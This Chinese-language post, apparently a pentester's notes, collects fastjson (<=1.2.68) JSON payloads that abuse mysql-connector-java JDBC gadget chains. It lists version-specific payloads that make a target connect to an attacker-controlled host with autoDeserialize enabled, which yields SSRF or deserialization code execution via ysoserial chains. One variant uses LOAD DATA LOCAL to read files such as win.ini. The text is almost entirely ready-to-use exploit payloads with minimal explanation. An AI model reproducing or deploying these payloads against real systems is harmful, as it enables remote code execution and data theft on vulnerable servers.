   
在进行JDBC利用链探测时，首先要判断  
mysql-connector-java  
版本是多少，我这里直接使用对于的poc  
  
  
来自这篇文章：  
[https://mp.weixin.qq.com/s/I0OdFPnRH_r1yZ04tOB-cw](https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247485232&idx=1&sn=7ad52820b928490ef1f99d99f034634e&scene=21#wechat_redirect)  
  
  
  
fastjson<=1.2.68，mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化   
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 3306,  "info": {    "user": "yso_xxx",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
fastjson<=1.2.68，mysql-connector-java-6.0.2-6.0.3可反序列化  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",  "proxy": {    "connectionString": {      "url": "jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc"    }  }}
```  
  
fastjson<=1.2.68，mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF  
  
```
{    "@type": "java.lang.AutoCloseable",    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",    "proxy": {        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",        "connectionUrl": {            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",            "masters": [{                "host": ""            }],            "slaves": [],            "properties": {                "host": "YOUR DNSLOG",                "user": "yso_xxx_calc",                "dbname": "dbname",                "password": "pass",                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",                "autoDeserialize": "true"            }        }    }}
```  
```
{"@type": "java.lang.AutoCloseable","@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",  "proxy": {    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",    "connectionUrl": {      "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",      "masters": [        {          "host": ""        }      ],      "properties": {        "allowUrlInlocalInfile": "true",        "allowLoadLocalInfile": "true",        "autoDeserialize": "true",        "dbname": "dbname",        "host": "YOUR_DNSLOG",        "password": "pass",        "port": "7777",        "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",        "user": "win_ini"      },      "slaves": []    }  }}
```  
## 反序列化利用  
  
  
在上面探测中，这个payload成功触发dnslog  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 3306,  "info": {    "user": "yso_xxx",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  